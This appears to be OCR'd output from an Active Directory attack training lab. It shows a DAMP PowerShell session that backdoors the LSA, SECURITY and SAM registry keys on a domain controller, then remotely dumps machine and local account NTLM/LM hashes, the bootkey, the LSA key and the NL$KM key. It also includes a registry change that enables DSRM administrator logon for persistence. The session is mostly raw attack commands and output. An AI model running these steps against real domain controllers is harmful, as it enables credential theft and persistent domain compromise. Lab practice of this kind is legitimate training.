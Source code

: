 ```
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\GBG] Creating ACE with Access Mask of 983103 (ALL_ACCESS) and AceFlags of 2 (CONTAINER_INHERIT_ACE)
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\GBG] Creating the trustee WMI object with user 'student503'
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\GBG] Applying Trustee to new Ace
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\GBG] Calling SetSecurityDescriptor on the key with the newly created Ace
VERBOSE: [dcorp-dc : SYSTEM\CurrentControlSet\Control\Lsa\GBG] Backdooring completed for key
VERBOSE: [dcorp-dc : SECURITY] Backdooring started for key
VERBOSE: [dcorp-dc : SECURITY] Creating ACE with Access Mask of 983103 (ALL_ACCESS) and AceFlags of 2 (CONTAINER_INHERIT_ACE)
VERBOSE: [dcorp-dc : SECURITY] Creating the trustee WMI object with user 'student503'
VERBOSE: [dcorp-dc : SECURITY] Applying Trustee to new Ace
VERBOSE: [dcorp-dc : SECURITY] Calling SetSecurityDescriptor on the key with the newly created Ace
VERBOSE: [dcorp-dc : SECURITY] Backdooring completed for key
VERBOSE: [dcorp-dc : SAM\SAM\Domains\Account] Backdooring started for key
VERBOSE: [dcorp-dc : SAM\SAM\Domains\Account] Creating ACE with Access Mask of 983103 (ALL_ACCESS) and AceFlags of 2 (CONTAINER_INHERIT_ACE)
VERBOSE: [dcorp-dc : SAM\SAM\Domains\Account] Creating the trustee WMI object with user 'student503'
VERBOSE: [dcorp-dc : SAM\SAM\Domains\Account] Applying Trustee to new Ace
VERBOSE: [dcorp-dc : SAM\SAM\Domains\Account] Calling SetSecurityDescriptor on the key with the newly created Ace
VERBOSE: [dcorp-dc : SAM\SAM\Domains\Account] Backdooring completed for key
VERBOSE: [dcorp-dc] Backdooring completed for system

ComputerName BackdoorTrustee
------------ ---------------
dcorp-dc     student503

PS C:\AD\Tools\DAMP-master\DAMP-master> Get-RemoteMachineAccountHash -ComputerName dcorp-dc

ComputerName MachineAccountHash
------------ ------------------
dcorp-dc     730d7f19492608508ec562121901dafb

PS C:\AD\Tools\DAMP-master\DAMP-master> Get-RemoteLocalAccountHash -ComputerName dcorp-dc

ComputerName : dcorp-dc
UserName     : Administrator
UserRID      : 500
UserLMHash   : 41e08b08e5717abe3388839756d9fcee
UserNTLMHash : ff169769aff491cdcd4c96611f6b2a30

ComputerName : dcorp-dc
UserName     : Guest
UserRID      : 501
UserLMHash   : 2f2f7dd0e1a526219675e151f4117054
UserNTLMHash : 50801e8dfb9b022191455a3c6e87f6e7

ComputerName : dcorp-dc
UserName     : DefaultAccount
UserRID      : 503
UserLMHash   : 9067ccbba6cfca4fcad973c77c0533a1
UserNTLMHash : c078c86b618d8cfe4e9780b43459835b

PS C:\AD\Tools\DAMP-master\DAMP-master> Get-RemoteCachedCredential -ComputerName dcorp-dc
PS C:\AD\Tools\DAMP-master\DAMP-master> Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
VERBOSE: Bootkey/SysKey : 85462B93FC25EE67BB07AD899096199B
VERBOSE: LSA Key        : FD3251451B1293B9ED7AF4BED8E19A678F514B9BC2B42B796E2C72AF156945E9
VERBOSE: NL$KM Key     : EE 67 E5 F6 00 AE 36 5C BC A5 92 3F B0 A9 FD BF 49 5C 82 8E 92 E4 55 59 04 33 52 25 66 76 18 CB 4F DA 59 95 71 A1 4C 7C 20 91 B3 B0 53 77 66 B3 C0 F6 63 F8 12 87 04 68 E6 94 DA B1 24 2B 0B 8C
```

[dcorp-dc]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
[dcorp-std503]: PS C:\Users\student503\Documents> exit
[dcorp-dc]: PS C:\Users\student503\Documents> whoami;hostname
[dcorp-dc]: PS C:\Users\student503\Documents> ls c:\
[dcorp-dc]: PS C:\Users\student503\Documents>
[dcorp-dc]: PS C:\Users\student503\Documents> ls C:\Users\Administrator\
[dcorp-dc]: PS C:\Users\student503\Documents> exit
